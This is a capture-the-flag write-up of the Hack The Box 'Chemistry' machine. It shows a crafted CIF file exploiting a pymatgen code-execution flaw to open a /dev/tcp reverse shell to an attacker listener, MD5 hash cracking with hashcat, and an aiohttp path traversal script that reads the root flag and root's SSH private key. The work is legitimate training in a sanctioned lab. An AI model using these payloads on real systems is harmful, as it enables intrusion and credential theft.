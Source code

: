 ```yaml
---
title: Chemistry - HTB
date: 2025-03-03 11:37:57 +0530
categories: [HTB, Linux]
tags: [htb,linux,easy]
---
```


## Overview
Chemistry is an easy machine from Hack The Box which focuses on File Upload, Password Cracking and Privilege Escalation, all of which are based on publicly available exploits.

---
- **IP:** 10.10.11.38
- **OS:** Linux
- **Difficulty:** Easy
- **Link:** [Chemistry - Hack The Box](https://app.hackthebox.com/machines/Chemistry)
- **Tools Used:** nmap, rustscan, netcat, pwncat, sqlite3, DB Browser for SQLite, hashcat

---
## Enumeration
### Port Scan
The Enumeration process begins with Port Scan using RustScan. The command used is as follows - `rustscan --range=1-65535 -a chemistry.htb -- -A -sC -sV`
The key takeaways from the port scan are:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    syn-ack ttl 63 Werkzeug httpd 3.0.3 (Python 3.9.5)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-title: Chemistry - Home
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
```
It is evident that http running on port 5000 should be the target.

### Website
The website on port 5000 has two options - Login and Register.
![Home Page](/assets/images/chemistry01.png){: w="700" h="400" }

A dashboard is presented upon the registration of a new user at http://chemistry.htb:5000/dashboard .
![Dashboard](/assets/images/chemistry02.png){: w="700" h="400" }
A File Upload functionality is observed on the dashboard, and takes files of *.cif* extension (Crystallographic Information File). A sample file is available and can be downloaded from the link in the web page.

---
## Exploitation
### Initial Foothold
A publicly available Arbitrary Code Execution vulnerability for *pymatgen* library was discovered after googling for "cif vulnerabilities" at this [link](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f). A payload was crafted based on the PoC is present in the article:
```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy


 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<listener_ip>/<listener_port> 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
**Note:** Please change the &lt;listener_ip&gt; and &lt;listener_port&gt; according to your environment.
The payload was made with the help of https://www.revshells.com/ .

A listener was set on the attacking machine using `pwncat -nvl <listener_port>`.
The file is uploaded upon which the web page presents two options for the file - View and Delete. The file gets parsed and the payload gets executed when clicked on "View".
![Upload Page](/assets/images/chemistry03.png){: w="700" h="400" }

Successful Reverse Shell
![Reverse Shell](/assets/images/chemistry04.png){: w="700" h="400" }
### User Flag
Since an initial foothold is obtained with the user *app*, the next step is to examine notable files within the **/home/app** directory. Analyzing the contents reveals two interesting files, **app.py**, and **database.db** file in the **/home/app/instance** folder. Both of these files can be copied to the attacking machine by starting a Python HTTP Server on the target using `python3 -m http.server 9099`. The files are transferred by running `wget http://chemistry.htb:9099/app.py` and `wget http://chemistry.htb:9099/instance/database.db` on the attacking machine.

**app.py** file is the Flask app that is running the Web Application on port 5000. The credentials for the database are available in **app.py** .
![Flask Credentials](/assets/images/chemistry05.png){: w="700" h="400" }

The **app.py** also mentions the type of the hashing algorithm used to store the passwords, which is md5 in this case.  
![Flask Passowrd](/assets/images/chemistry06.png){: w="700" h="400" }

The **database.db** file is viewed with *DB Browser for SQLite* or `sqlite3`` command line tool.
The password for one of the users can be cracked using `hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`, where **hashes.txt** contains all the md5 hashes from the database file separated by new-line.
One of the cracked password is used to logon to ssh and obtain the user flag.

---
## Privilege Escalation
LinPEAS is downloaded and run as the non-root user to check for Privilege Escalation paths. The LinPEAS output indicates an open localhost port 8080.
![Active Ports](/assets/images/chemistry07.png){: w="700" h="400" }

By connecting to this port from the target machine using `curl -vv http://127.0.0.1:8080`, it is observed that a Python server running *aiohttp version 3.9.1* is active.
![AIOHTTP](/assets/images/chemistry08.png){: w="700" h="400" }

A search for "aiohttp 3.9 vulnerabilities" led to the discovery of an exploit for a Path Traversal Vulnerability [here](https://github.com/z3rObyte/CVE-2024-23334-PoC). Analyzing the output from the previous `curl` command revealed that stylesheets and JavaScript files were being loaded from the *assets* directory. The proof-of-concept (PoC) exploit was then modified accordingly to read the root flag file, and upon execution, it successfully retrieved the root flag.
```bash
#!/bin/bash

url="http://127.0.0.1:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done

```

### Bonus
The private key of the *root* user can also be obtained in a similar manner.
```bash
#!/bin/bash

url="http://127.0.0.1:8080"
string="../"
payload="/assets/"
file="root/.ssh/id_rsa" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done

```

This key can be copied and stored in a file with the permissions `-rw-------` (600) and can be used to logon as *root* user on the target using `ssh root@chemistry.htb -i <root.key>`.

---
## References
- [Pymatgen CIF exploit](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
- [AIOHTTP Path Traversal Exploit](https://github.com/z3rObyte/CVE-2024-23334-PoC)
- [Reverse Shell Generator](https://www.revshells.com/ )

---